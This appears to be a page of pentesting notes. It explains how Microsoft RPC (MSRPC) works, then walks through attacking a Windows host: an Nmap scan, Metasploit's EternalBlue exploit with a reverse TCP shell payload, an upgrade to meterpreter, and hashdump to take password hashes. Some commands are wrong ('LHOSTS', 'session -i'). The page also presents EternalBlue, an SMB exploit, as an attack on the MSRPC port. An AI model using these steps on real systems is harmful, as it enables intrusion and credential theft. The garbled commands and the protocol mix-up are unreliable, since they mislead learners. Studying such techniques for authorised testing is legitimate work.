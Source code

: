 ##### ***What is MSRPC?***
MSRPC serves as a bridge between different processes running on separate computers. MSRPC's client-server model enables a program to request services from another program on a different computer. This is done without requiring the requesting program to understand the intricacies of the network or the implementation details of the service it's asking for.

Here's a simplified sequence of steps to illustrate how MSRPC operates:

1. **Interface Definition**: Both client and server agree on an interface, which is like a contract specifying what operations can be performed and what data types will be used.
    
2. **Stub Generation**: Stubs are generated for both the client and the server based on this interface. These stubs handle the marshaling and unmarshaling of data, translating between the function calls in the code and the actual network messages that get sent.
    
3. **Client Request**: The client makes a function call, which is caught by the client stub. The stub packages this into an MSRPC request and sends it over the network. The request includes the interface identifier and the operation number (opnum) of the method being invoked.
    
4. **Server Processing**: The server stub receives the MSRPC request and unpacks it to determine which operation is being requested. It then performs the requested operation.
    
5. **Server Response**: After performing the operation, the server packs the result into an MSRPC response and sends it back to the client.
    
6. **Client Processing**: The client stub receives the response, unpacks it, and returns the data back to the client application as if it were the result of a local function call.
    
7. **Transport Mechanism**: Throughout this process, the MSRPC messages are typically tunneled through standard network protocols like SMB/CIFS, HTTP, or TCP.
##### ***Exploiting MSRPC***
Conduct an Nmap scan against a target. Depending on the host configuration, the RPC endpoint mapper can be accessed through TCP and UDP port 135, via SMB with a null or authenticated session (TCP 139 and 445), and as a web service listening on TCP port 593.
```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
```

As you can see from the Nmap scan, port 135 is open. Use `msfconsole` to open metasploit, then run these commands:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set RPORT <vulnerable_msrpc_port>
set LHOSTS <exploit_machine_ip>
set payload windows/x64/shell/reverse_tcp
exploit
```

This will execute the payload on the target Windows machine with the [[EternalBlue]] ms17-010 exploit. 

**Set up meterpreter**
After getting a successful connection, you should upgrade to a meterpreter shell. Use `CTRL + Z` to set the current session into the background. Then run the `use` command to enter the set up for a meterpreter shell. 
	`use post/multi/manage/shell_to_meterpreter`

Now set the session you want to use the meterpreter shell on with `set SESSION <session_id>`, then use `session -i <session_id>` to enter the meterpreter shell on the session for the Windows machine. 

Use `hashdump` inside meterpreter shell to get the passwords and user's of the Windows machine. Run `shell` to enter into the Windows machine shell. 
##### ***Resources***
- https://www.runecast.com/blog-posts/cve-2022-26809-ms-rpc-vulnerability-explained-and-covered
- https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc

